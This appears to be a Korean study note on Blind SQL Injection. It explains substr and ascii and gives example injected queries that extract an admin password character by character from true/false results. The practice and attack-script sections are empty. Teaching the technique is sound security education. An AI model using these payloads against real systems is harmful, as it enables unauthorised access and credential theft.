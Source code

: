
**Blind SQL Injection** 는 위에 있는 그림처럼 DBMS 의 **질의 결과**를 이용자가 화면에서 직접 **확인하지 못할 때 참/거짓 반환 결과**로 **데이터를 획득**하는 공격 기법이다.

## Blind SQL Injection 예시

### substr

**substr** : 입력받은 **문자열에서 지정한 위치부터 길이까지의 값**을 가져오는 함수

```SQL
substr(string, position, length)
substr('ABCD', 1, 1) = 'A'
substr('ABCD', 2, 2) = 'BC'
```
위와 같이 substr을 통해 특정 위치의 값을 질의해서 참/거짓을 통해 Blind SQL Injection을 할 수 있다.

```SQL
# 첫 번째 글자 구하기
SELECT * FROM user_table WHERE uid='admin' and substr(upw,1,1)='a'-- ' and upw=''; # False
SELECT * FROM user_table WHERE uid='admin' and substr(upw,1,1)='b'-- ' and upw=''; # True
# 두 번째 글자 구하기
SELECT * FROM user_table WHERE uid='admin' and substr(upw,2,1)='d'-- ' and upw=''; # False
SELECT * FROM user_table WHERE uid='admin' and substr(upw,2,1)='e'-- ' and upw=''; # True 
```

**substr** 을 통해 위와 같이 **Blind SQL Injection 공격 쿼리**를 만들 수 있다.  

2, 3번째 줄을 보면, upw의 첫번째 문자가 a, b 인지 물어본다.  
그리고 5, 6번째 줄을 보면, upw의 두 번째 문자가 d, e 인지 물어본다.

이 뿐만 아니라 다른 내장 함수도 이용할 수 있다.

**ascii** : 입력받은 **문자를 아스키 코드로** 반환하는 함수

```SQL
# 첫 번째 글자 구하기 (아스키 114 = 'r', 115 = 's')
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,1,1))='114'-- ' and upw=''; # False
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,1,1))='115'-- ' and upw=''; # True

# 두 번째 글자 구하기 (아스키 115 = 's', 116 = 't')
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,2,1))='115'-- ' and upw=''; # False
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,2,1))='116'-- ' and upw=''; # True 
```

이전과 똑같지만, 문자로 물어보는 것이 아니라 **아스키코드**로 질의하는 것이다.

2, 3번째 줄을 보면, upw의 첫번째 문자가 r, s 인지 물어본다.  
그리고 6, 7번째 줄을 보면, upw의 두 번째 문자가 s, t 인지 물어본다.

## SQL Injection 실습

**추후에 작성**

## Blind SQL Injection 공격 스크립트
